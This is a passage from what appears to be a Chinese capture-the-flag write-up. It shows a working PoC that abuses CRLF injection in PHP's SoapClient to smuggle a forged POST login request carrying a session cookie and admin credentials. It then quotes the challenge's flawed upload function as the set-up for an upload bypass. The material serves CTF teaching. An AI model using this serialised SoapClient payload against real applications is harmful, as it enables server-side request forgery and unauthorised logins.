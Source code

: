 如果我们遇到一个 GET 型的 CRLF 注入，但是我们需要的却是一个 POST 类型的请求，就可以用这种方式，在第一个请求中注入一个 `Connection: Keep-Alive`，然后接着往下注入第二个请求，就可以实现。

wonderkun 师傅的 PoC：
```php
$uri = "http://www.baidu.com/?test=blue\r\nContent-Length: 0\r\n\r\n\r\nPOST /index.php?action=login HTTP/1.1\r\nHost: 127.0.0.1\r\nCookie: PHPSESSID=52m5ugohiki56gds9c6t71rj92\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 45\r\nConnection: Close\r\n\r\nusername=admin&password=nu1ladmin&code=435137\r\n\r\n\r\n";
$location = "http://127.0.0.1/test";  //注意这里一定不要写 index.php?action=login,否则第一个请求会改变验证码的值
$event = new SoapClient(null,array('location'=>$location,'uri'=>$uri));
echo  urlencode(serialize($event));
```

### 上传绕过
获得 admin 账户后，publish 处可以上传文件。

upload 函数的代码如下：
```php
function upload($file) {
    $file_size  = $file['size'];
    if($file_size>2*1024*1024) {
        echo "pic is too big!";
        return false;
    }
    $file_type = $file['type'];
    if($file_type!="image/jpeg" && $file_type!='image/pjpeg') {
        echo "file type invalid";
        return false;
    }
    if(is_uploaded_file($file['tmp_name'])) {
        $uploaded_file = $file['tmp_name'];
        $user_path =  "/app/adminpic";
        if (!file_exists($user_path)) {
            mkdir($user_path);
        }
        $file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
        else
            return false;
    }
    else
        return false;
}
```
